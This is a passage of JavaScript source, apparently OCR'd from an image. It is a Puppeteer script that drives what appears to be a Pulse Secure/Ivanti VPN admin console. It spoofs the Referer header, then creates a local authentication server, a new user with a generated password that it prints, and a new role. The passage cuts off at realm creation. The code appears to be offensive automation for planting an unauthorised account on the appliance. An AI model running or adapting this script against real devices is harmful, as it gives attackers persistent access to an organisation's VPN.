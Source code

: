 ```javascript
        if (await page.$("[name='btnContinue']") !== null) {
            await page.click("[name='btnContinue']");
            console.log("[+] Previous session found, continuing")
        }
    } catch (e) {
        console.log("[+] No previous session, continuing")
    }

    // Create server
    console.log("[+] Create server")
    await page.setExtraHTTPHeaders({ referer: base_url + "/dana-admin/misc/admin.cgi" })
    await page.goto(base_url + "/dana-admin/auth/listServers.cgi")
    await page.waitForSelector("#ServerType")
    await page.evaluate(() => {
        $("#ServerType option:contains('Local Authentication')")[0].selected = true
    })
    await page.waitForSelector("#btnCreateNewServer")
    await page.click("#btnCreateNewServer")
    await page.waitForSelector("#txtReferenceName_5")

    var server = "server" + Date.now()
    await page.type("#txtReferenceName_5", server)
    await page.click("#btnSaveServerChanges_1")
    console.log("[*] Server created: " + server)
    await page.waitForSelector("#frmAuthServer")

    // Goto users
    console.log("[+] Goto users")
    linkHandlers = await page.$x("//*[@id='frmAuthServer']/ul/li[2]/a");
    if (linkHandlers.length > 0) {
        await linkHandlers[0].click();
    } else {
        console.log("[-] Users button not found")
        process.exit(1)
    }
    await page.waitForSelector("#btnNew_32")
    await page.click("#btnNew_32")

    // Create user
    console.log("[+] Create user")
    await page.waitForSelector("#login")
    var user_name = "user" + Date.now()
    var user_passord = "petitfromageaupoivre" + Date.now()
    await page.type("#login", user_name)
    await page.type("#name_10", user_name)
    await page.type("#passwd", user_passord)
    await page.type("#confirm_passwd", user_passord)
    await page.click("#AddLocalUser")
    console.log("[*] User created: " + user_name + " : " + user_passord)

    // Create new role
    console.log("[+] Create new role")
    await page.setExtraHTTPHeaders({ referer: base_url + "/dana-admin/misc/admin.cgi" })
    await page.goto(base_url + "/dana-admin/roles/roles.cgi?btnNew=1")
    await page.waitForSelector("#txtName_40")
    var role = "role" + Date.now()
    await page.type("#txtName_40", role)
    await page.type("#txtDescription_27", role)
    await page.click("#chkHTML5Acc")
    await page.click("#btnCreate_3")
    console.log("[*] Role created: " + role)

    // Create new realm
```